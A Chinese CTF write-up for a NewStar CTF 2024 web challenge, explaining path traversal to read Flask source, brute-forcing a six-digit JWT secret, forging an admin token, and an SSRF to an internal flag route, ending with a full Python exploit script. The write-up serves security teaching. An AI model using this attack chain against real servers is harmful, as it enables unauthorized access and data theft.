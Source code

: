 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 这照片是你吗

查看网页源码：

```html
<!-- 图标能够正常显示耶! -->
<!-- 但是我好像没有看到 Niginx 或者 Apache 之类的东西 -->
<!-- 说明服务器脚本能够处理静态文件捏 -->
<!-- 那源码是不是可以用某些办法拿到呢! -->
```

很明显的提示，能够获得静态文件，但是没有用常见的反代服务来区别静态文件和服务型路由。

服务端处理文件和路由的逻辑很有可能会有漏洞。

简单的测试就能知道是路径穿越 + 任意文件读。

查看 Response Header，能够认出来是 Flask app，常用的 Flask 主程序名为为 `app.py`.

<Container type="info">

路径穿越常用用 `../`，意为当前文件夹的上一层。
</Container>

本题将静态文件存储在了 `./static` 中，主程序在 `static` 外，那么使用 `GET /../app.py` 就可以拿到源码了。

::: tip
若直接在浏览器中访问带 `../` 的路径，会先被浏览器按照网址路径规则解析一遍 `../`，最终发出的并不是含这个字符串的路径，因此需要用发包软件发送过去。
:::

![发包获取源代码](/assets/images/wp/2024/week3/zhaopian_1.png)

<Container type="quote">

本题的漏洞代码是 `send_file("./static/" + file)`.

与 SQL 注入一样，直接拼接用户可控制输入的字符串是大忌！
</Container>

很轻松的，我们获得了主程序的源代码。

审计源码，可以知道我们要用 `admin` 用户登录来进入面板。两种方法：获取密码或者伪造 `token`.

首先来看密码的长度：

```python
base_key = str(uuid.uuid4()).split("-")
admin_pass = "".join([ _ for _ in base_key])
```

`admin` 的密码长度是 32 个字符，而整个程序有登录次数限制，因此无法爆破密码来登录。

而伪造 `token` 则需要 `secret_key`，查看生成逻辑：

```python
secret_key = get_random_number_string(6)
```

6 位数字字符串，可以在数秒内完成爆破。

```python
users = {
    'admin': admin_pass,
    'amiya': "114514"
}
```

通过本段代码我们可以知道一个有效账户 `amiya`，密码 `114514`，通过发包登录，我们可以获得一个有效的 `token`，据此能在本地认证签名 `secret_key` 的有效性（因为目标主机有认证次数限制）。

<Container type="quote">

用明文存密码也是大忌！安全的做法是存储哈希值，并且加入一定的盐值（Salt）。
</Container>

爆破出 `secret_key`，然后查看登录后的逻辑：

前端请求 `/execute` 指定 `api_address`，而 `api_address` 可控且没有校验，存在 SSRF 漏洞。

定位到源代码开头：

```python
from flag import get_random_number_string
```

这是出题人故意漏的信息，将函数写在了 flag 模块并 import，提示查看 `flag.py`

```python
@get_flag.route("/fl4g")
# 如何触发它呢?
def flag():
    return FLAG
```

::: tip
Python 程序可以 import 同一目录下的 `.py` 文件而不必创建 `__init__.py` 等标记模块的文件。因此这里同级目录下有文件名为 `flag.py` 的程序，模块名为 `flag`.
:::

我们的操作很明确了：利用 `/execute` 路由的 SSRF 漏洞让服务器自己访问 `http://localhost:5001/fl4g`，即访问 `/execute?api_address=http://localhost:5001/fl4g`.

EXP 如下：

```python
import time
import requests
import jwt
import sys

if len(sys.argv) < 2:
    print(f"Usage: python {sys.argv[0]} <url>")
    sys.exit(1)

url = sys.argv[-1]


def get_number_string(number,length):
    return str(number).zfill(length)

print("[+] Exploit for newstar-zhezhaopianshinima")
print("[+] Getting a valid token from the server")

LENGTH = 6
req = requests.post(url+"/login", data={"username":"amiya","password":"114514"})
token = req.cookies.get("token")

print(f"[+] Got token: {token}")
print("[+] Brute forcing the secret key")
for i in range(1000000):
    secret_key = get_number_string(i,LENGTH)
    try:
        decoded = jwt.decode(token, secret_key, algorithms=["HS256"])
        break
    except jwt.exceptions.InvalidSignatureError:
        continue

print(f"[+] Found secret key: {secret_key}")
fake_token = jwt.encode({'user': 'admin', 'exp': int(time.time()) + 600}, secret_key)

print(f"[+] Generated a fake token: {fake_token}")

print("[+] Getting the flag")
req = requests.get(url+"/execute?api_address=http://localhost:5001/fl4g", cookies={"token":fake_token})

print(f"[+] Flag: {req.text}")
```
